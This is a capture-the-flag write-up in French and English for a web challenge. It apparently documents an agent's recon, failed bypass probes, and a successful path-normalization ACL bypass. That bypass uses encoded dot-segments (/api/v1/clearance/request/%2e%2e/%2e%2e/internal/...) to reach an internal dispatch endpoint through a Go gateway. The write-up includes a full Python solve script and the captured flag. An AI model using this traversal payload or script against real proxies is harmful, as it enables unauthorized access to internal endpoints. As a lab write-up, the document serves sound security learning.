



# Writeup : chronos-corridor-transit-gate

Catégorie : web

Date de résolution : 2026-11-07

Technique principale : Go reverse-proxy path-normalization/ACL bypass via encoded dot-segments

Outils observés : curl --path-as-is, Python http.client

Cible : Assigned CTLD instance w01:37911

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-corridor-transit-gate. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Contexte

# Corridor Transit Gate :  CTFd 9145

1. Le convoi `CTLD-FR-8821` est détenu : le WIM mesure 46 200 kg contre une limite de 40 000 kg sur le viaduc nord.
2. La clairance publique `/api/v1/clearance/request` refuse correctement ce dépassement.
3. Le portail contient un bouton " Supervisor Dispatch Override "; le chunk JS révèle `POST /api/v1/internal/dispatch/emergency-clearance`.
4. L’Ingress Gateway bloque directement `/api/v1/internal/*` avec `GW_ACL_INTERNAL_ROUTE_PROHIBITED`.
5. Le filtre du gateway traite les segments de chemin différemment du service downstream.
6. On envoie `POST /api/v1/clearance/request/%2e%2e/%2e%2e/internal/dispatch/emergency-clearance` en préservant les octets `%2e`.
7. Le gateway laisse passer la route sous le préfixe public; le downstream résout les deux `..` vers `/api/v1/internal/dispatch/emergency-clearance`.
8. Avec le JSON `{consignment_id, reason}`, le dispatch d’urgence approuve la clairance et ouvre la barrière.
9. Le token de clairance retourné est le flag : `CSCTF{stRU2XWMfG7uxd84ulZuJrQv}`.
10. CTFd a répondu `Correct`; l’API confirme `solved_by_me=true`.

### Exploitation

POST /api/v1/clearance/request/%2e%2e/%2e%2e/internal/dispatch/emergency-clearance

### Pourquoi ça marche

A gateway ACL and downstream router can normalize the same URL differently; preserve literal slashes and encode dot-segments as %2e%2e to route from a public prefix into an internal handler.

### Pièges

Encoded slashes (%2f) caused backend 404; encode dot segments only, preserve separators.

### Notes locales conservées

# Corridor Transit Gate (CTFd 9145)

## Triage / scope
1. Category Web; 0 solves at start; instance specifically assigned: `http://w01.ctf.chronos-security.ro:37911`.
2. User instruction in challenge: interact only with assigned instance. All requests below stay on this instance.
3. Attachment: `evidence/api_specification.json` (SHA256 `50874d28a16cb41aee2495975fb70b40db99f374eab62f4069ad3945ab4b3b92`). OpenAPI 3.0.3 lists public corridor/consignment/telemetry and standard clearance endpoints only.

## Recon
4. `GET /api/v1/corridor/status`: North Viaduct restricted, max 40,000kg.
5. `GET /api/v1/consignments/CTLD-FR-8821`: CTLD-FR-8821 declared 22,000kg; WIM reads 46,200kg; hold `HELD_AXLE_WEIGHT_DISCREPANCY`.
6. `GET /api/v1/telemetry/station/CP-04`: confirms 46,200kg, 6 axles.
7. `POST /api/v1/corridor/assess` for 46,200kg: structural exceedance.
8. Standard `POST /api/v1/clearance/request` returns `ERR_AXLE_WEIGHT_DISCREPANCY`, says emergency clearance must use internal dispatch controller.
9. Public page `/portal/consignment/CTLD-FR-8821` exposes `Supervisor Dispatch Override`; JS manifest references `/static/assets/js/chunks/chunk-dispatch-admin.9c4d.js`.
10. Downloaded JS reveals intended call: POST `/api/v1/internal/dispatch/emergency-clearance`, JSON `{consignment_id,reason}`.
11. Exact endpoint returns 403 `GW_ACL_INTERNAL_ROUTE_PROHIBITED` from gateway.

## Hypotheses / tests
1. URL normalization discrepancy in Go gateway (path encoding / escaped slash / dot segments): tested single/double percent encodings, encoded slash, semicolon and dot paths; no bypass yet (403 or backend 404/301).
2. Trusted forwarding headers: tested X-Forwarded-For, X-Real-IP, X-Forwarded-Host, X-Original-URL/URI, X-Forwarded-Uri/Prefix, X-Rewrite-URL, X-Accel-Redirect, X-CTLD-Internal, X-Internal-Request; none bypasses ACL.
3. Alternate Host routing: tested dispatch/internal/local host labels; exact path still denied.

## Status
15. No flag/clearance yet. `flags.txt` remains empty.
16. Current blocker is reaching the documented-by-frontend internal dispatch endpoint through the Go reverse-proxy boundary.

## Journal
17. 2026-11-07T13:16:00Z unknown : Recon confirms 46.2t vs 40t cap, UI JS leaks internal dispatch endpoint. Gateway blocks exact path; encoding/forwarded-header probes so far fail. Continue route/ACL differential on assigned instance.

18. Additional targeted probes on assigned instance: trailing slash, duplicate slash (gateway 301 canonicalization), dot segments, encoded trailing slash/query, case variants, percent-encoded `i`, double encoding, semicolon/suffix, backslash separators, encoded separators, and public clearance path traversal. No bypass: internal case variants/encoded characters get the same gateway 403; changed routes get backend 404; duplicate slashes 301. X-HTTP-Method-Override/X-Original-Method did not change dispatch.
19. No emergency-clearance mutation succeeded; no flag submission attempted.

## Journal
20. 2026-11-07T13:19:22Z unknown : Probe ciblé des divergences de normalisation/casse/séparateurs et method override sur l'instance assignée: aucune route bypass confirmée; résultats 403 gateway, 301 canonicalisation, ou 404 backend. Aucune mutation ni soumission flag.
21. 2026-11-07T13:20Z: Testé une voie de reroutage légitime via POST `/api/v1/consignments` pour le même VRN `TL-8821-X`, poids mesuré 46,200kg et Southern Trunk (limite 60t). API a créé `CTLD-FR-8833` (nouvelle déclaration générique) ; clearance standard a retourné `CLEARED` / `STD-PASS-OK`, mais CTFd `solved_by_me=false`. Le hold original `CTLD-FR-8821` n’a pas changé. Cette expérience n’est pas la solution.

## Journal
22. 2026-11-07T13:21:04Z unknown : Confirmation: nouvelle déclaration Southern Trunk CTLD-FR-8833 créée puis clearance STD-PASS-OK, mais ne résout pas le challenge. L’original 8821 reste held; la solution vise toujours le contrôle d’urgence interne.
23. 2026-11-07T13:22Z: Test mass assignment on public POST `/api/v1/consignments` avec `consignment_id=CTLD-FR-8821`, `status=CLEARED`, altered corridor/weights. Endpoint a ignoré les champs système et créé un nouveau `CTLD-FR-8834`; le dossier original reste `HELD_AXLE_WEIGHT_DISCREPANCY`. Pas de solve.

## Journal
24. 2026-11-07T13:22:52Z unknown : Tests supplémentaires: le body mass-assignment sur POST /consignments ignore id/status système et génère CTLD-FR-8834; l’original reste bloqué. Le reroutage valide CTLD-FR-8833 ne résout pas. Endpoint interne toujours protégé par ACL.

## Exploit confirmé / résultat
25. Hint CTF (coût 30) confirmait un différentiel de normalisation entre filtre gateway et service downstream.
26. URI encodée exacte : `/api/v1/clearance/request/%2e%2e/%2e%2e/internal/dispatch/emergency-clearance`; deux segments `..` remontent de `/api/v1/clearance/request/` à `/api/v1/`, puis le handler interne.
27. Requête : POST JSON `{"consignment_id":"CTLD-FR-8821","reason":"Authorized emergency escort"}` + `X-Requested-With: XMLHttpRequest`.
28. Réponse observée : HTTP 200, `status=APPROVED`, `gate_barrier_state=OPEN`, clearance token `CSCTF{stRU2XWMfG7uxd84ulZuJrQv}`.
29. Soumission CTFd : `status=correct`; vérification `/api/v1/challenges/9145` : `solved_by_me=true`, `attempts=1`.
30. Flag enregistré dans `flags.txt`; `solve.py` conserve l’URI encodée brute avec `http.client`.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-corridor-transit-gate
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
"""Trigger the intended CTLD gateway path-normalization bypass."""
import http.client
import json
import sys

host = sys.argv[1] if len(sys.argv) > 1 else "w01.ctf.chronos-security.ro"
port = int(sys.argv[2]) if len(sys.argv) > 2 else 37911
path = "/api/v1/clearance/request/%2e%2e/%2e%2e/internal/dispatch/emergency-clearance"
body = json.dumps({
    "consignment_id": "CTLD-FR-8821",
    "reason": "Authorized emergency escort",
})
conn = http.client.HTTPConnection(host, port, timeout=10)
conn.request("POST", path, body=body, headers={
    "Content-Type": "application/json",
    "X-Requested-With": "XMLHttpRequest",
})
response = conn.getresponse()
data = response.read().decode("utf-8", "replace")
print(f"HTTP {response.status}")
print(data)
try:
    result = json.loads(data)
    if result.get("clearance_token", "").startswith("CSCTF{"):
        print("FLAG:", result["clearance_token"])
except json.JSONDecodeError:
    pass
conn.close()
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

La mémoire partagée indique une validation CTFd correcte ou déjà validée.

Flag obtenu : `CSCTF{stRU2XWMfG7uxd84ulZuJrQv}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
